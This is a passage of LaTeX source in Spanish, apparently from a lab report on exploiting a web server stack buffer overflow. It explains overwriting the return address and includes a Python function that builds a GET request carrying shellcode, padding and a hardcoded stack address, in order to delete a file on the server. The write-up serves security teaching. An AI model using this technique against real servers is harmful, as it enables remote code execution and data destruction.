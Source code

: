 \documentclass[12pt]{article}
\begin{document}
\begin{figure}[htp]
\centering
\includegraphics[scale=0.47]{./imagenes/gdb2.png}
\caption{Extrayendo informacion de interes}
\end{figure}

\subsection{Construyendo el primer exploit}
 Ahora estamos en posición de comenzar a hacer nuestro primer exploit. El mismo consistirá en una petición especial que aproveche el desbordamiento encontrado. Inyectaremos código malicioso a ejecutar y saltaremos a él sobreescribiendo la dirección del return address.
 
En la URL de la petición incluímos el path del archivo a borrar, las instrucciones del shellcode y un relleno hasta sobrescribir en la return address la dirección de las instrucciones inyectadas. Aquí incluímos el código que produce la petición:

\begin{lstlisting}[language=python,belowskip=\baselineskip]
stack_buffer = 0xbfffee08
stack_rv = 0xbffff61c

def build_exploit():
    shellfile = open("shellcode-iny1.bin", "r")
    shellcode = shellfile.read()

    mystring = "/home/httpd/grades.txt\0"
    preff = "/" + urllib.quote(mystring)
    direcc = preff + shellcode
    shelloffset = len("/" + mystring)

    for x in xrange(0, stack_rv - stack_buffer - shelloffset - len(shellcode)  ):
        direcc += "a"
    direcc += urllib.quote( struct.pack( "<I", shelloffset+stack_buffer ) )

    req =   "GET " + direcc + " HTTP/1.0\r\n" + \
            "\r\n"
    return req
\end{lstlisting}
\end{document}
